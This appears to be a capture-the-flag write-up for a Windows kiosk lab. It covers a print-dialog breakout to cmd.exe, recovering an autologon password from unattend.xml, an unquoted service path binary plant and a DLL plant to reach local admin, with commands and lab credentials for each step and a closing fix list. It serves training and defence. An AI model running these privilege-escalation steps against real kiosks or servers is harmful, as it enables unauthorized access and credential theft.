




HackSmarter · Windows · Medium
Kiosk: print escape, unattend, unquoted path, DLL plant
Authorized lab only. Lab author: Ryan Yager. Notes 2026-08-07.
Status on disk: host was often powered off during the second pass.
Early RDP screenshots and enum exist. Flag file contents were not saved in loot.
Paths below match lab layout and operator notes under
~/kiosk/ and ~/htb/kiosk/.
| Box | Kiosk |
| Platform | HackSmarter (DEFCON free access) |
| Type | Windows VDI kiosk escape and service abuse |
| Fault | Print dialog escape, unattend autologon, unquoted service path, DLL load |
| Level | Medium |
| Target | 10.1.172.141 host EC2AMAZ-0536LUM |
| Start user | vdiuser / VDI@DH2024! |
What you need to know
- RDP into a locked HTA or workspace kiosk
- Print dialog paths that open
cmd.exe - Windows
unattend.xmlautologon secrets - Unquoted service paths and DLL search order
Main idea
Escape the kiosk with the print dialog. Read unattend for the next user. Abuse an unquoted service path and a healthcheck DLL load to reach admin.
vdiuser RDP kiosk → Ctrl+P / Find Printer → cmd → flag1 + unattend.xml → svcuser → unquoted DH_KioskMonitor → DH.exe plant → healthcheck loads dhlog.dll → local admin → WinRM → flag3 + flag4

Step 1: Prove start password and ports
Why: Confirm the host is on and the handed password works on SMB.
nmap -Pn -n -p 80,445,3389,5985,8443 --open 10.1.172.141 nxc smb 10.1.172.141 -u vdiuser -p 'VDI@DH2024!' --local-auth
Expect: 80, 445, 3389, 8443 open. SMB auth OK. Host EC2AMAZ-0536LUM.

Step 2: Kiosk escape with print dialog
Why: The kiosk blocks a normal shell. Print Find Printer still opens a file dialog that can start programs.
xfreerdp /v:10.1.172.141 /u:vdiuser /p:'VDI@DH2024!' /sec:nla \ /dynamic-resolution /cert:ignore +clipboard /grab-keyboard # Inside kiosk: # Ctrl+P → Find Printer… → open C:\Windows\System32\cmd.exe


Step 3: Flag 1 and unattend
Why: First flag is under VDI data. Autologon password opens the next account.
type C:\VDIData\flag1.txt type C:\Windows\Panther\unattend.xml # Autologon password is UTF-16LE base64 → Svc_DH!2024 for svcuser
Flag 1 path: C:\VDIData\flag1.txt
(content not saved in local loot)
# decode check (lab value) echo 'UwB2AGMAXwBEAEgAIQAyADAAMgA0AA==' | base64 -d | iconv -f UTF-16LE -t UTF-8 # Svc_DH!2024

Step 4: svcuser and flag 2
Why: svcuser has a normal session and more write rights for the service path.
runas /user:svcuser powershell # password: Svc_DH!2024 type C:\Users\svcuser\Desktop\flag2.txt # or RDP: xfreerdp /v:10.1.172.141 /u:svcuser /p:'Svc_DH!2024' /sec:nla /cert:ignore
Flag 2 path: C:\Users\svcuser\Desktop\flag2.txt
Step 5: Unquoted service path
Why: Space in the path without quotes lets Windows run a planted
DH.exe first.sc qc DH_KioskMonitor # BINARY_PATH includes: C:\Program Files\Darkhaven Kiosk Services\... # SERVICE_START_NAME: .\dh_admin # Plant: # C:\Program Files\Darkhaven Kiosk Services\DH.exe # Build a service binary that logs the healthcheck DLL path (stage 1) # Then plant C:\DarkhavenTools\logs\dhlog.dll (stage 2)
Operator payloads live under ~/kiosk/payloads/ (svc_stage1.cs, svc_stage2.cs, dhlog.dll).
Step 6: Admin and flags 3 and 4
Why: After the DLL or service plant creates a local admin, take the last flags over WinRM.
# example after plant (lab operator chose user pwned / Password123! in notes) evil-winrm -i 10.1.172.141 -u pwned -p 'Password123!' type C:\Users\dh_admin\Desktop\flag3.txt type C:\Users\Administrator\Desktop\flag4.txt
Flag 3 path: C:\Users\dh_admin\Desktop\flag3.txt
Flag 4 path: C:\Users\Administrator\Desktop\flag4.txt
(content not saved in local loot)
Password chain from notes
vdiuser / VDI@DH2024! handed start svcuser / Svc_DH!2024 unattend autologon dh_admin / (service) unquoted path context local admin after DLL operator plant
Impact
- Kiosk breakout to cmd
- Clear autologon password on disk
- Service misconfig to local admin
Fix
- Lock print and file dialogs in the kiosk profile. Use AppLocker or WDAC.
- Remove plain autologon secrets from Panther. Use LAPS or vaulted secrets.
- Quote every service binary path. Harden ACL on Program Files trees.
- Do not load writable DLL paths from services. Alert on new local admins.
Close
Kiosk is print escape, then classic Windows PE. Power the box on before you burn time on empty ports.